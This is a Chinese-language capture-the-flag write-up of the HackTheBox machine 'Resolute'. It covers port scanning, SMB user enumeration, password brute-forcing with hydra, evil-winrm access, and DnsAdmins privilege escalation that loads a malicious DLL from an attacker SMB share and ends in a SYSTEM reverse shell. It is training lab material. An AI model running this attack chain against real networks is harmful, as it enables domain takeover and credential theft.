

信息收集
端口扫描1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59# Nmap 7.70 scan initiated Sat Jun 6 11:11:59 2020 as: nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,5985,9389,49665,49666,49667,49671,49677,49688 -oA scan/Resolute 10.10.10.169
Nmap scan report for localhost (10.10.10.169)
Host is up (0.26s latency).
PORT STATE SERVICE VERSION
53/tcp open domain?
| fingerprint-strings:
| DNSVersionBindReqTCP:
| version
|_ bind
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2020-06-06 03:23:16Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp open microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open unknown
49667/tcp open msrpc Microsoft Windows RPC
49671/tcp open msrpc Microsoft Windows RPC
49677/tcp open unknown
49688/tcp open unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.70%I=7%D=6/6%Time=5EDB098C%P=x86_64-apple-darwin17.3.0%r
SF:(DNSVersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07ver
SF:sion\x04bind\0\0\x10\0\x03");
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 2h31m09s, deviation: 4h02m31s, median: 11m08s
| smb-os-discovery:
| OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
| Computer name: Resolute
| NetBIOS computer name: RESOLUTE\x00
| Domain name: megabank.local
| Forest name: megabank.local
| FQDN: Resolute.megabank.local
|_ System time: 2020-06-05T20:24:10-07:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: required
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2020-06-06 11:24:11
|_ start_date: 2020-06-06 00:29:52
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 6 11:13:15 2020 -- 1 IP address (1 host up) scanned in 75.81 seconds
135、139、445端口开放，存在SMB服务，使用enum4linux进行信息收集，1
$ enum4linux 10.10.10.169
发现的有意思的事情：
- 域主机，域名：MEGABANK
- 发现账号密码：marko Welcome123!
- 用户列表：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27Administrator
Guest
krbtgt
DefaultAccount
ryan
marko
sunita
abigail
marcus
sally
fred
angela
felicia
gustavo
ulf
stevie
claire
paulo
steve
annette
annika
per
claude
melanie
zach
simon
naoki
获取melanie用户
使用enum4linux、smbclient登录，失败，于是使用发现的所有用户名和密码爆破SMB服务，寻找可用账号；1
2
3
4
5
6
7
8
9
10$ hydra -L users.txt -P passwd.txt 10.10.10.169 smb
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-02 22:32:33
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 27 login tries (l:27/p:1), ~27 tries per task
[DATA] attacking smb://10.10.10.169:445/
[445][smb] host: 10.10.10.169 login: melanie password: Welcome123!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-02 22:33:24
我是用mac爆破时，如果使用smb://10.10.10.169则无法爆破出账号密码，如果使用10.10.10.169 smb则可以爆破出来。
最后爆破出melanie Welcome123!
由于开放5985端口wsman服务，于是直接使用evil-winrm获取终端：
1 | $ evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!' |
melanie to ryan
上传内网信息收集工具，进行信息收集，查看文件系统，在PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt文件中找到域用户megabank\ryan及账号密码1
cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
ryan to system
查看用户所在的用户组
net user ryan /domainwhoami /groups
1 | *Evil-WinRM* PS C:\Users\ryan> net user ryan /domain |
用户组dnsadmins提权
写入恶意dll到dns配置1
2
3
4*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd \\Resolute /config /serverlevelplugindll \\10.10.14.13\share\privesc.dll
Registry property serverlevelplugindll successfully reset.
Command completed successfully.
重启dns服务1
2$ sc.exe \\Resolute stop dns
$ sc.exe \\Resolute start dns
SmbServer获得NTLM Hash1
2
3
4
5
6
7
8
9
10
11
12
13
14python smbserver.py share workspace/htb/Resolute
Impacket v0.9.22.dev1+20200605.133909.874d7ae4 - Copyright 2020 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.169,50563)
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
[*] RESOLUTE$::MEGABANK:4141414141414141:cfe1616a120b772f65297bac6c19bc98:0101000000000000002d7c75543cd6013d464c2b327c44f200000000010010004600690056004400420078006800670003001000460069005600440042007800680067000200100062004300660067004f0044005a0059000400100062004300660067004f0044005a00590007000800002d7c75543cd601060004000200000008003000300000000000000000000000004000008c635b5e900e78ca8c7a8f352b339a178f5404a45222a9104bbfde364acca55b0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310033000000000000000000
[*] Disconnecting Share(1:IPC$)
nc收到system权限的shell
1 | $ nc -lv 4444 |
拿到root权限
1 | C:\Windows\system32>cd c:\Users |